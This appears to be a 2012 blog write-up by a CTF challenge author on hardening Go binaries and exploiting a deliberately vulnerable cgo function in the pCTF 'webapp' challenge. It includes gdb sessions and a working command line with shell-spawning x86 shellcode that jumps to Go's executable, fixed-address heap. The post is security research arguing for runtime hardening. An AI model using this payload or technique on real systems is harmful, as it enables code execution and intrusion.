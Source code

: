 Title: Securing and Exploiting Go Binaries
Date: 2012-05-06
Tags: golang, exploitation
Summary: I have spent some time over the past month or so trying to use Go binaries in a secure manner and trying to exploit Go binaries and I thought it would be useful if I talked a little bit about my journey.

<h3>Introduction</h3>
<p>
First, I have been working in Go for about a year now. As part of this years pCTF, I created a problem that involved exploiting a Go binary (binary and source <a href="http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/05/bunyan-wp.tar.gz">here</a>). I consequently had to deal with securing the binary to prevent leaking unnecessary information and had some fun playing around with exploiting a Go binary.
</p>

<h3>Securing a Go Binary</h3>
<p>
Creating a secure, production-ready Go binary was more challenging than expected. By default: <ul>
	<li>The Go build tools include the full path to the source on the build machine in the binary. </li>
	<li>Go binaries helpfully print the faulting address and instruction on segmentation faults.</li>
	<li>The heap in Go is loaded at a fixed address and is executable.</li>
	<li>Go binaries are linked with full debug information.</li>
</ul>
I filed a <a href="http://code.google.com/p/go/issues/detail?id=3467">issue</a> suggesting the option for a compiler flag to create a hardended binary, but there has not been much interest in that yet.
</p>

<p>
Some of these problems can be mitigated with appropriate hacks. The path to the Go runtime can be changed by setting the environment variable <tt>GOROOT_FINAL</tt> before running <tt>all.bash</tt> (see <a href="http://code.google.com/p/go/issues/detail?id=3467#c4">this comment</a> on the issue I filed). For user code, it takes some more work: I had to deep copy all of my source into a <tt>/tmp/build</tt> directory before compiling so that the only string was a <tt>"/tmp/build"</tt> rather than the actual path.
</p>
<p>
Some debug information can be stripped by passing <tt>-s</tt> as a command line to the linker (for example, <tt>go build -ldflags "-s" prog.go</tt>). Note that this does not remove file paths, etc from the binary. It is pretty easy to patch the Go runtime to avoid printing the faulting address and instruction, but that should probably take the form of a real change rather than a quick and dirty patch. Unfortunately, the heap to be seems executable and loaded into fixed location by design (so that closures are easier and that heap addresses do not overlap with valid unicode strings, making the garbage collector easier), so it is not clear that that will be fixed for anytime soon.
</p>
<h3>Exploiting a Go program</h3>
<h4>Disclaimer</h4>
<p>
First things first - I did <em>not</em> find an exploit in the Go runtime that gave code execution. Instead, I linked the Go binary to a cgo library that had an intentional vulnerability. I had to do some work to make the cgo library exploitable. I made an explicitly vulnerabile C program and specified flags <tt>-fno-stack-protector -U_FORTIFY_SOURCE</tt> to discard modern protections. Lastly, the behavior I performed in cgo (printing a string to stdout) could have trivially been perfomed in pure Go.
</p>
<p>
However, I personally feel like Go packages use the unsafe package or are linked against full C libraries commonly enough (consider banthars <a href="https://github.com/banthar/gl">package</a> with Go bindings for OpenGl or a <a href="http://go-lang.cat-v.org/library-bindings">variety</a> of other packages) that it is irresponsible for the Go runtime to be poorly secured out of the claim that there are no vulnerabilies in Go. Furthermore, the Go runtime should be better secured to avoid the damage from any as of yet undiscovered vulnerabilities in the Go runtime.
</p>
<p>
Going forward, I will assume that there is a vulnerability (introduced possibly by a vulnerable C library) and will focus on one interesting way to exploit it by using the Go runtime. I will specifically focus on the <a href="webapp"><tt>webapp</tt></a> problem used in pCTF.
</p>

<h4>The actual exploit</h4>
<p>
The Go runtime has some really interesting properties that make it fun to exploit:
<ul>
	<li>The heap is executable.</li>
	<li>The heap is deterministic and in a fixed location every run</li>
	<li>Immutable strings tend to end up on the heap</li>
</ul>
We will construct an exploit that takes advantage of all of these properties. First, we get get a vulnerability that gives us a crash.
</p>

    :::console
    $ ./webapp --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
    AAAAAAAAA       1Listening on :AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
    unexpected fault address 0x42424242
    throw: fault
    [signal 0xb code=0x1 addr=0x42424242 pc=0x42424242]

    goroutine 1 [syscall]:
    levellog._Cfunc_Log(0xb736e0b0, 0xb736e0c8)
	    /tmp/go-build279009652/levellog/_obj/_cgo_defun.c:50 +0x32
    levellog.Log(0x1, 0x1883cd00, 0x7f)
	    /tmp/go-build279009652/levellog/_obj/log.cgo1.go:126 +0x140
    main.main()
	    /tmp/build/src/webapp/main.go:21 +0x101

    goroutine 2 [syscall]:
    created by runtime.main
	    /usr/local/src/go/src/pkg/runtime/proc.c:221

Now that we have code execution (and we know the vulnerable function due to the helpful stack trace), we <tt>objdump</tt> the function and put a breakpoint before returning to our clobbered return address.

    :::objdump
    080624d0 <Log>:
     80624d0:       81 ec 9c 00 00 00       sub    $0x9c,%esp
     80624d6:       8b 84 24 a4 00 00 00    mov    0xa4(%esp),%eax
     80624dd:       89 9c 24 94 00 00 00    mov    %ebx,0x94(%esp)
     80624e4:       e8 4f 00 00 00          call   8062538 <__i686.get_pc_thunk.bx>
     80624e9:       81 c3 17 7b 25 00       add    $0x257b17,%ebx
     80624ef:       89 b4 24 98 00 00 00    mov    %esi,0x98(%esp)
     80624f6:       8d 74 24 10             lea    0x10(%esp),%esi
     80624fa:       89 44 24 0c             mov    %eax,0xc(%esp)
     80624fe:       8b 84 24 a0 00 00 00    mov    0xa0(%esp),%eax
     8062505:       89 34 24                mov    %esi,(%esp)
     8062508:       89 44 24 08             mov    %eax,0x8(%esp)
     806250c:       8d 83 00 c3 f2 ff       lea    -0xd3d00(%ebx),%eax
     8062512:       89 44 24 04             mov    %eax,0x4(%esp)
     8062516:       e8 ad 6c 25 00          call   82b91c8 <sprintf@plt>
     806251b:       89 34 24                mov    %esi,(%esp)
     806251e:       e8 b5 6c 25 00          call   82b91d8 <puts@plt>
     8062523:       8b 9c 24 94 00 00 00    mov    0x94(%esp),%ebx
     806252a:       8b b4 24 98 00 00 00    mov    0x98(%esp),%esi
     8062531:       81 c4 9c 00 00 00       add    $0x9c,%esp
     8062537:       c3                      ret

and

    :::console
    $ gdb webapp
    GNU gdb (Ubuntu/Linaro 7.3-0ubuntu2) 7.3-2011.08
    Copyright (C) 2011 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "i686-linux-gnu".
    For bug reporting instructions, please see:
    ...
    Reading symbols from /tmp/build/webapp...done.
    Loading Go Runtime support.
    (gdb) b *0x8062537
    Breakpoint 1 at 0x8062537

We run our exploit again, and then search the heap for our string (we know that the heap is always in the range <tt>[0x18600000, 0x18900000]</tt> for this binary since Go has a deterministic heap).
    
    :::console
    (gdb) run --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
    Starting program: /tmp/build/webapp --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
    [Thread debugging using libthread_db enabled]
    [New Thread 0xb7ccbb70 (LWP 7869)]
    AAAAAAAAA       1Listening on :AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

    Breakpoint 1, 0x08062537 in Log ()
    (gdb) x/a $esp
    0xbffff1ac:	0x42424242
    (gdb) find 0x18600000, 0x18900000, 0x42424242
    0x1883cd7b


So now we know that our string, which is <tt>:AAAA...AAAABBBB</tt>, is located at <tt>0x1883cd7b - 4 - 109 = 0x1883cd0e</tt> on the heap. (Note - this is because string concatenations put strings onto the deterministic heap). But then we are done! We change string to include shell code, and then use our control flow control to jump to it.

    :::console
    $ ./webapp -loglevel=100 -logfmt=AAAAAAAAA%8d -address="$(perl -e ' print ":\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x0e\xcd\x83\x18"')"
    AAAAAAAAA       1Listening on :j
				    Xï¿½Rfh-pï¿½ï¿½Rjhh/bash/binï¿½ï¿½RQSï¿½ï¿½Í€AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAÍƒ
    $
<p>
Success!
</p>
<h3>Postmortem</h3>
<p>
This exploit is interesting for a number of reasons. First of all, it works on any (32 bit) machine running the same version of Go as the attacker. This is because heap allocations end up being quite deterministic. Next, this type of exploit (jump to an object on the executable heap, such as a string put there via a string concatenation) is something that would be easy to replicate in a variety of Go binaries. Lastly, the executable heap offers an easy surface for heap sprays and other attacks. It is also easy to imagine an expoit that uses a heap overwrite to clobber a closure and get code execution.
</p>

<p>
It is also important to note that, while the vulnerability is introduced through C code, common C protections such as NX, ASLR, and libc randomization would make this binary very difficult to exploit without the use of the weak Go runtime. I wish to repeat: <em>this binary is easily exploitable because it is a Go binary</em>, even assuming ASLR, NX, and libc randomization.
</p>

<p>
I firmly believe that Go should consider randomizing its heap and making it no longer executable. I also think that it is imperative to provide a compiler option that hardens the binary by disabling the printing of debugging information (stack traces, faulting addresses) on program crashes and stripping debugging / package information from the binary. 
</p>

<h3>Go Community Response</h3>
<p>
For anyone who is interested, the Go community's response is <a href="http://groups.google.com/group/golang-nuts/browse_thread/thread/25df6d94d73a8d41">here</a>. In summary: vulnerabilities in Go are extremely unlikely so the engineering/complexity overhead required to implement any of these protections is not worth it. I respectfully disagree - vulnerabilities can come from cgo libraries or from as of yet unknown bugs in the Go runtime itself. Furthermore, I suspect that adding ASLR or NX would not require very much effort.
</p>

<h3>Other writeups</h3>
<p>
There are writeups of this problem available by:
<ul>
	<li><a href="http://eindbazen.net/2012/05/plaid-ctf-2012-bunyan/">Eindbazen</a> (C style return to libc exploit)</li>
	<li><a href="http://www.bases-hacking.org/bunyan-plaidctf2012.html">w3stormz</a> (Go heap exploit, in French)</li>
</ul>
</p>

<h3>tl;dr</h3>
<p>
Go binaries are compiled with a lot of debug info, which some people might want to strip. The Go heap is executable and deterministic, making the exploitation of the pCTF Bunyan problem relatively straightforward.
</p>
<span style="display:none;">Writeup by Alex Reece, see me on <a href="https://plus.google.com/106589059588263736517?rel=author">Google</a>+.</span> 
